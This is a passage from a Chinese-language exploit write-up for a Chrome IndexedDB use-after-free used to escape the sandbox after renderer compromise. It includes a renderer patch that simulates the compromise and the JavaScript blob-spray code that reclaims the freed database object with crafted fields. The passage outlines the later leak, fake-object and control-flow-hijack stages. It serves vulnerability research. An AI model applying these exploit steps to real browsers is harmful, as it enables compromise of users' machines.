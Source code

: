 但这里有个问题，如何在render进程中通过IndexedDBFactory来调用这三个函数呢？实际上，render的JS接口可以调用IndexedDB的open和deleteDatabase，但无法调用AbortTransactionsForDatabase接口。同时，这里存在一个问题，我们无法保证browser进程中的函数执行顺序如我们所期待的那样，因为Js中IndexedDB接口大多都是异步的，因此browser中的这三个函数可能无法依次、完全的完成执行。

但我们又必须在render进程中依次同步执行这三个函数，而这就是为什么该漏洞只能在render RCE的基础上利用的原因了。

由于 render RCE可以给render进程自己打上patch，所以就可以在render进程中打patch以保证这三个函数可以被同步调用（即依次执行）。

这也是为什么在环境搭建时要在chrome源码中打上patch的原因，因为手动打上patch可以模拟render RCE 打patch的结果。
```
// third_party/blink/renderer/modules/indexeddb/web_idb_factory_impl.cc
void WebIDBFactoryImpl::Open(
       std::make_unique<IndexedDBDatabaseCallbacksImpl>(
           base::WrapUnique(database_callbacks));
   DCHECK(!name.IsNull());
   factory_->Open(GetCallbacksProxy(std::move(callbacks_impl)),
                  GetDatabaseCallbacksProxy(std::move(database_callbacks_impl)),
                  name, version, transaction_id);
+  if (version == 3) {
+    mojom::blink::IDBCallbacksAssociatedPtrInfo ptr_info;
+    auto request = mojo::MakeRequest(&ptr_info);
+    factory_->DeleteDatabase(std::move(ptr_info), origin, name, true);
+    factory_->AbortTransactionsForDatabase(origin, base::OnceCallback<void(blink::mojom::IDBStatus)>());
+  }
 }
```

## exploite

开始之前先简单理一下利用流程，之后在针对每个流程具体分析：
- spray blob获取free后的indexedDBDatabase
- 使用blob来leak heap addr
- 释放掉之前的blob，重新spray blob来fake indexedDBDatabase
- 堆喷
- 劫持程序执行流


### spray blob获取free后的indexedDBDatabase

首先想要将DB申请回来就要先知道他的大小：

在content::indexedDBDatabase::DeleteDatabase中添加LOG
```
LOG(ERROR) << sizeof(IndexedDBDatabase);
```
编译后运行即可得到大小328
[0217/105726.351982:ERROR:indexed_db_database.cc(1865)] 328

之后通过new Blob来申请内存，之后存入blob_list为leak做准备
```
let ab = new ArrayBuffer(0x148); //indexedDBDatabase的size
var uaf_ta = new BigUint64Array(ab);
uaf_ta[0] = 0x12345679n; // magic
uaf_ta[1] = 0xffffffff00000030n  //reference count
uaf_ta[35] = 0x101n;  //将active_request_置非0
/*
uaf_ta[0] = 0x12345679n;
for(let j=1;j<35;j++){
    uaf_ta[j]=0x101n;   //将active_request_置非0
}
uaf_ta[36] = 0x101n;
*/
for(let i = 0; i < 0x5000; i++){
var a=new Blob([ab]);
    blob_list.push(a);  //存放blob
}
```